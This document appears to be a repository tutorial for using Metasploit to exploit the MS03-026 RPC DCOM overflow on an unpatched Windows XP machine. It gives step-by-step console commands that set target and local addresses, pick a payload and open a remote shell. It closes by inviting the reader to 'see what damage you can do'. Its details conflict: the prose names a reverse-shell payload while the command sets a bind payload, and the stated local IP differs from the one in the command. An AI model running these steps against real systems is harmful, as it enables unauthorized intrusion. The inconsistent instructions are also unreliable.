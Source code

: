 # Example Exploit 
There are multiple exploits for an un-patched windows xp box. Here is a guide on how to do one of them:

## Step 1 - Metasploit
Ok, we're going to be using metasploit for this attack. To get started run the following in a terminal:

`sudo -E service postgresql start && sudo -E msfdb init && sudo -E msfconsole;`

Be patient, it takes awhile for Metasploit to load all of its modules. The current version of Metasploit has 823 exploits and 250 payloads.

## Step 2 - Find the exploit 

One of the most reliable hacks is on the ubiquitous Windows XP system with the RPC DCOM. It's a buffer overflow attack that enables the attacker to execute any code of their choice on the owned box (note Microsoft's comment under impact of vulnerability). Microsoft identifies it as MS03-026 in their database of vulnerabilities. In our case, we will use it to open a reverse shell on our target system.

Now run `msf > search dcom` 
This will find the exploit

![Image of the mfs terminal](images/634704378236167812.jpg)

## Set the exploit 
Now let's tell Metasploit what exploit we want to use.
Type use and the name of our exploit, exploit/windows/dcerpc/ms03_026_dcom.

`msf > use exploit/windows/dcerpc/ms03_026_dcom`

## Set the options
Now that we've chosen our exploit, we can ask Metasploit what our options are. By typing show options, Metasploit will list our options in executing this exploit.

`msf > show options`

## Set Remote host
Metasploit will now ask us for the RHOST. This will be the IP address of the remote host or the machine we're attacking. In our case, it's `10.0.0.125`. Use the actual IP address of the machine you are attacking. Tools such as nmap can help in identifying the IP address of the machine you are attacking. Notice in the picture above that Metasploit tells us that we will be using (binding) port 135.

`msf > set RHOST 10.0.0.125`

## Show Payloads
Next, we check to see what payloads are available for this exploit. Type show payloads at the Metasploit prompt:

`msf > show payloads`

## Set Payload
Now that we can see what payloads are available, we can select the generic/shell_reverse_tcp by using the Metasploit console set command. If successful, this will establish a remote shell on the target system that we can command.

`msf > set PAYLOAD windows/meterpreter/bind_tcp`

## Set LocalHost
Now that we've chosen the exploit and the payload, we need to tell Metasploit the IP address of our machine. In this example, our system has an IP address of `10.0.10.6`. Use the actual IP address of the system you using. Tools such as `sudo ifconfig` should help you find your IP Address. It should be in the format of `10.0.10.X`

`msf > set LHOST 10.0.0.6`

## Exploit 
Now we command Metasploit to exploit the system:

`msf > exploit`

## Open a shell! 
This should open up a metaterpeter shell. 

To confirm that the command shell is on the Windows XP system, type dir to get a directory listing on the Windows XP system that you now own!

`C: >dir`

Congrats! Now see what damage you can do! 

